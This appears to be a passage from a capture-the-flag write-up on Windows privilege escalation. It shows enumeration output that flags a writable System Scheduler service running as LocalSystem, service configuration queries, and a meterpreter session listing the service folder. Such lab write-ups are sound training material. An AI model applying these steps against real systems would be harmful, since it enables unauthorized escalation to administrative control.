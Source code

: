 ```bash
    C:\Program Files\Windows Mail
    C:\Program Files\Windows NT
    C:\Program Files\WindowsApps
    C:\Program Files\WindowsPowerShell
...
    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    YOU CAN MODIFY THIS SERVICE: Start, AllAccess
    File Permissions: Everyone [WriteData/CreateFiles], SYSTEM [AllAccess], Administrators [AllAccess]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles], SYSTEM [AllAccess], Administrators [AllAccess])
    System Scheduler Service Wrapper
   =================================================================================================
  [+] Modifiable Services
...
    WSService: Start, WriteData/CreateFiles, TakeOwnership
```

In addition to a ton of information about the host, there appears to be an administrator set of credentials, as well as a service (WScheduler) that is locally modifiable and running as an administrative user. Since this appeared to be the intended attack vector, I decided to attack this further.

### Attacking WScheduler

I started by taking a look at the `WScheduler` service

```powershell
c:\Program Files (x86)\SystemScheduler>sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: WindowsScheduler
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

```bash
meterpreter > cd PrograProgram Files  "Program Files (x86)" 
meterpreter > cd SystemScheduler 
meterpreter > ls
Listing: c:\Program Files (x86)\SystemScheduler
===============================================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
40777/rwxrwxrwx   4096     dir   2019-08-04 11:36:53 +0000  Events
100666/rw-rw-rw-  60       fil   2019-08-04 11:36:42 +0000  Forum.url
100666/rw-rw-rw-  9813     fil   2019-08-04 11:36:42 +0000  License.txt
100666/rw-rw-rw-  1496     fil   2019-08-04 11:37:02 +0000  LogFile.txt
100666/rw-rw-rw-  3760     fil   2019-08-04 11:36:53 +0000  LogfileAdvanced.txt
100777/rwxrwxrwx  536992   fil   2019-08-04 11:36:42 +0000  Message.exe
100777/rwxrwxrwx  445344   fil   2019-08-04 11:36:42 +0000  PlaySound.exe
100777/rwxrwxrwx  27040    fil   2019-08-04 11:36:42 +0000  PlayWAV.exe
100666/rw-rw-rw-  149      fil   2019-08-04 11:36:53 +0000  Preferences.ini
100777/rwxrwxrwx  485792   fil   2019-08-04 11:36:42 +0000  Privilege.exe
100666/rw-rw-rw-  10100    fil   2019-08-04 11:36:42 +0000  ReadMe.txt
100777/rwxrwxrwx  112544   fil   2019-08-04 11:36:42 +0000  RunNow.exe
```